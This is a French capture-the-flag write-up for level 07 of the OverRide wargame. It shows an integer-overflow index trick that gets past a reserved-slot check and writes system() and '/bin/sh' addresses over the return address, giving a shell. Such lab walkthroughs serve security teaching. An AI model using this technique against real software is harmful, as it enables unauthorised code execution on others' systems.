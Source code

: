 # Level 07

En lançant le binaire, on peut voire :

```sh
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:
```

Notre objectif dans ce niveau est de faire un peu la même chose que le level 05.

Pour cela, nous allons devoir récupérer l'adresse de quelques éléments du programme.

|   Return   |   tableau    |   system   |   bin/sh   |
--------------------------------------------------------
| 0xffffd6ec |  0xffffd524  | 0xf7e6aed0 | 0xf7f897ec |

Après avoir récupéré les adresses qui nous intéressent. Nous avons besoin de savoir qu'elle est la taille de notre tableau :
```sh
0xffffd6ec-0xffffd524 = 456
# Puis nous allons diviser par 4 car ces un tableau de int
456 / 4 =  114
```

La valeur 114 correspond à l'endroit où nous mettrons l'adresse de `system`.

Si on réessaye, on voit que cela ne fonctionne pas. Le programme nous bloc.

```sh
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
```

Le programme vérifie quelques règles avant de laisser ou non un nombre être stocké à un
index spécifique. On On remarque 116 fonctionne correctement, mais 114 est problématique.

Le programme utilise la fonction `scanf` pour récupérer son input. Cette fonction ne vérifie pas
les overflows d'int. On peut ainsi utiliser un nombre égale à 114 modulo (2^32 / 4) pour déjouer la
vérification d'index tout en écrivant le nombre à la même adresse mémoire.

Ainsi :
```sh
0xf7e6aed0 hex to dec --> 4159090384
114 + ((2 ^ 32) / 4) = 1073741938
```


```sh
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil\'s crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ # Access to next level
```

Il ne reste plus qu'à récupérer le pass.
